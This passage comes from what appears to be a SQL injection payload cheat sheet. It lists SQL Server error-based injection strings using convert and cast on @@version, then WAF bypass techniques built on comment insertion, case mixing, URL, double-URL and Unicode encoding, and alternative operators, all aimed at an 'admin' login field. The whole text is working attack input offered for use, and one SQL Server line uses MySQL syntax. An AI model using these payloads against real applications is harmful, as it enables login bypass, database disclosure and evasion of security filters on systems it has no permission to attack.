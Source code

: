 ### SQL Server Error-based
```sql
-- Convert error injection
admin' and 1=convert(int,(select @@version))-- -
admin' and 1=convert(int,(select database()))-- -

-- Cast error injection
admin' and 1=cast((select @@version) as int)-- -
```

---

## WAF Bypass Techniques

### Comment Variations
```sql
-- MySQL comments
admin'/**/or/**/1=1-- -
admin'/*!*/or/*!*/1=1-- -
admin'/*comment*/or/*comment*/1=1-- -

-- Inline comments
admin'/*!/or/*/1=1-- -
admin'/*!50000or*/1=1-- -
```

### Case Variations
```sql
-- Mixed case
Admin' Or '1'='1'-- -
ADMIN' OR '1'='1'-- -
aDmIn' oR '1'='1'-- -
```

### Character Encoding
```sql
-- URL encoding
admin%27%20or%20%271%27%3D%271%27--%20-

-- Double URL encoding  
admin%2527%2520or%2520%25271%2527%253D%25271%2527--%2520-

-- Unicode encoding
admin\u0027 or \u00271\u0027=\u00271\u0027-- -
```

### Alternative Operators
```sql
-- Alternative to OR
admin' || '1'='1'-- -
admin' | '1'='1'-- -

-- Alternative to AND
admin' && '1'='1'-- -
admin' & '1'='1'-- -

-- Alternative to equals
admin' or '1' like '1'-- -
admin' or '1' regexp '1'-- -
```

---